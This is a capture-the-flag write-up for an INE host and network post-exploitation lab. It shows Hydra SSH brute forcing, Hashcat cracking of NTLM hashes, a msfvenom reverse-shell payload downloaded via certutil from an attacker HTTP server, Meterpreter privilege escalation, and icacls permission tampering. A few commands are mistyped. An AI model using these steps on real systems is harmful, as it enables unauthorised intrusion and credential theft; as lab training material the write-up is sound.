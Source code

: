 ## Host & Network Penetration Testing: Post-Exploitation CTF 2

### Flag 1: An insecure ssh user named alice lurks in the system.

Following the track hint, we start with an Nmap scan followed by a brute force attack with Hydra on the SSH port.
```
nmap -sS -p- -T4 target.ine.local
```
```
hydra -l alice -P /usr/share/wordlists/metasploit/unix_passwords.txt target.ine.local ssh
```
We found Alice's password:
```
alice:princess1
```
Using this credential, we are able to login to the SSH service
```
ssh alice@target.ine.local
```
where we find the first flag. 

### Flag 2: Using the hashdump file discovered in the previous challenge, can you crack the hashes and compromise a user?

We can use a generic Hashcat attack at least to identify the hash type:
```
hashcat -a 0 hashes.txt /usr/share/wordlists/metasploit/unix_passwords.txt 
```
Hashcat identifies the hash as:
```
1000 | NTLM | Operating system
```
In the meantime, it cracks a password.
```
david -> orange
```
Logging in using this credential via SSH, we discover the second flag.

### Flag 3: Can you escalate privileges and read the flag in C://Windows//System32//config directory?

To escalate privileges, we can establish a Meterpreter session.

On the attacker’s machine.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.49.2 LPORT=4321 -f exe > shell.exe
```
```
python -m http.server 8080
```
On David’s terminal.
```
certutil -urlcache -f http://10.10.49.2:8080/shell.exe shell.exe
```
On the attacker’s machine, we can now execute Metasploit with the multi/handler module.
```
search multi/handler and use it
set LHOST 10.10.49.2
set LPORT 4321
set payload windows/x64/meterpreter/reverse_tcp
```
On David’s terminal.
```
execute shell.exe
```
On the attacker’s machine, after establishing the Meterpreter session.
```
getsystem
migrate to a system process like lsass.exe
```
Once we’ve obtained a shell, we can easily locate the third flag.

### Flag 4: Looks like the flag present in the Administrator's home denies direct access.

We successfully completed this task, albeit not in the intended manner.

The “flag” folder remains inaccessible, even when we attempt to access it via a SYSTEM process in Meterpreter.

Upon verifying the permissions of the target folder, we discovered that the SYSTEM user lacks the ability to enter the folder but can modify its permissions.
```
icacls flag
```
Therefore, we granted full permission to Alice.
```
c:\users\administrator> icacls flag /grant alice:F
```
With Alice’s terminal, we removed and reinstated the SYSTEM account to delete the “deny” permission.
```
icalcs c:\users\administrator\flag /remove system
icalcs c:\users\administrator\flag /grant system:F
```
With the SYSTEM account, we can now access the “flag” folder and grant Alice access to the flag4.txt file.
```
icacls c:\users\administrator\flag\flag4.txt /grant alice:F
```
With Alice’s terminal, we can now read the fourth flag.
